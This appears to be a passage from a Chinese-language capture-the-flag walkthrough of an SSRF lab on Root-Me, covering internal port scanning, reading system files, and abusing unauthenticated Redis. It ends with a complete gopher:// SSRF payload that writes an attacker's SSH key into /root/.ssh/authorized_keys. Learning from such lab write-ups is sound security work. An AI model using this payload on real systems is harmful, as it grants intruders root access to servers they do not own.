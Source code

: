 ## 4.5 测试过程
访问目标地址，如果没有账号，需要创建账号点击右上的绿色小加号来创建账号，创建完成后回到此页面。

找到一个处于none的虚拟机，点击房间名，如下的ctf04

![1560159824044](https://misakikata.github.io/2019/06/SSRF/1560159824044.png)

进入房间后，选择需要创建的虚拟机，选择SSRF Box，点击保存，选择start the game。

![1560159878492](https://misakikata.github.io/2019/06/SSRF/1560159878492.png)

过一段时间的等待后，会显示如下信息。

![1560235776984](https://misakikata.github.io/2019/06/SSRF/1560235776984.png)

访问 ctf04.root-me.org 就可以看到启动的虚拟环境了

![1560235872860](https://misakikata.github.io/2019/06/SSRF/1560235872860.png)

当然，如果在创建虚拟机之前，看到其他的房间有人已经创建了SSRF Box我们也可以加入此玩家的房间，点击房间名，进入房间后点击右上角的Join the game。稍等片刻就可以加入到游戏中，根据提示访问对应的地址就可以开始测试啦。

访问地址后可以看到页面显示一个输入框，需要输入url参数，开始抓包。

![1560235989336](https://misakikata.github.io/2019/06/SSRF/1560235989336.png)

尝试在页面输入百度地址后，页面会把百度首页加载进此页面中。

![1560236149809](https://misakikata.github.io/2019/06/SSRF/1560236149809.png)

读取系统文件：

![1560236739185](https://misakikata.github.io/2019/06/SSRF/1560236739185.png)

使用burp的Intruder模块，来探测开放的服务端口，开放则显示OK，不开放则显示Connection refused。

![1560238637396](https://misakikata.github.io/2019/06/SSRF/1560238637396.png)

探测可知内网开放了6379端口redis服务，尝试利用SSRF对redis执行未授权漏洞，此处简单科普一下redis漏洞影响。

详细内容可以查看文章：<https://www.freebuf.com/vuls/162035.html>

Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。

因此，此漏洞在没有配置密码的情况下可以利用SSRF来绕过绑定在本地的限制，从而实现在外网攻击内网应用。

1）利用redis来写ssh密钥

此处利用ssh生成一对公私钥，生成的默认文件为id_rsa.pub和id_rsa。把id_rsa.pub上传至服务器即可。我们利用redis把目录设置为ssh目录下：

根据网上写密钥有两种协议可以使用，一种是dict，一种是gopher。测试使用dict协议写不成功，写入后不能连接，此处使用gopher写密钥。

使用的payload为：

```
gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$401%0d%0a%0a%0a%0assh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/Xn7uoTwU+RX1gYTBrmZlNwU2KUBICuxflTtFwfbZM3wAy/FmZmtpCf2UvZFb/MfC1i......2pyARF0YjMmjMevpQwjeN3DD3cw/bO4XMJC7KnUGil4ptcxmgTsz0UsdXAd9J2UdwPfmoM9%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$11%0d%0a/root/.ssh/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$15%0d%0aauthorized_keys%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
```
